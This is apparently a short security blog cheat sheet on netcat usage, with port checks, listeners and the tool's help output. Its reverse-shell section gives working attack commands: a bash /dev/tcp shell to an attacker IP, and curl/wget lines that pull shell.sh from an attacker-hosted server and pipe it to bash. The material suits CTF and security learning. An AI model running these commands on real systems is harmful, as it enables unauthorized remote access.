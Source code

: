 ```yaml
---
title: "[Connection] Netcat basic usage"
published: 2024-04-12
description: 'A networking connection tools Netcat with basic usage'
tags: [Security, Networking, Netcat]
category: Networking
draft: false
---
```


# [Connection] Netcat

## Check target port avaiable
```bash
nc -nv 192.168.0.12 8080

nc -nv -w 3 192.168.0.12 8080 # Faster die time if target not open
```

## Check connections
```bash
nc jupiter.challenges.picoctf.org 64287
```

## Open current port
```bash
nc -lvnp 8080
```

## Perform Reverse Shell
https://www.revshells.com/

1. In your machine, run the nc listener, assume you are open port `8080`
```bash
nc -lvnp 8080
```

2. In victims machine, run the target code and done
```bash
sh -i >& /dev/tcp/192.168.80.105/8080 0>&1
```

3. (Optional) In case, you may use `python` or npm `serve` to host a simple web server
```bash 
python3 -m http.server 8080

serve -p 8080
```

4. (Optional) In victim machine, use `wget`, `curl` or `Invoke-WebRequest`
```bash
wget http://172.31.206.223:8080/shell.sh
curl http://172.31.206.223:8080/shell.sh

curl%20http://172.31.206.223:8080/shell.sh|bash

Invoke-WebRequest http://172.31.206.223:8080/shell.sh -OutFile shell.sh | bash shell.sh
```


## Overall help
```md
[v1.10-47]
connect to somewhere:   nc [-options] hostname port[s] [ports] ...
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
        -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
```

